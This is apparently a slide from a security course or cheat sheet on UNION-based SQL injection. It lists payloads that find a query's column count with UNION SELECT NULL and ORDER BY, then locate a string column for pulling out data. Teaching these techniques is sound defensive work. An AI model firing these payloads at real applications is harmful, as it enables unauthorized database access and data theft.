

# UNION
Finding #columns with NULL
‘ UNION SELECT NULL--
‘ UNION SELECT NULL, NULL--
‘ UNION SELECT NULL, NULL, NULL--
Finding #columns with ORDER BY
‘ ORDER BY 1--
‘ ORDER BY 2--
‘ ORDER BY 3--
Finding a string column to extract data
‘ UNION SELECT ‘a’, NULL, NULL—
‘ UNION SELECT NULL, ‘a’, NULL--
‘ UNION SELECT NULL, NULL, ‘a’--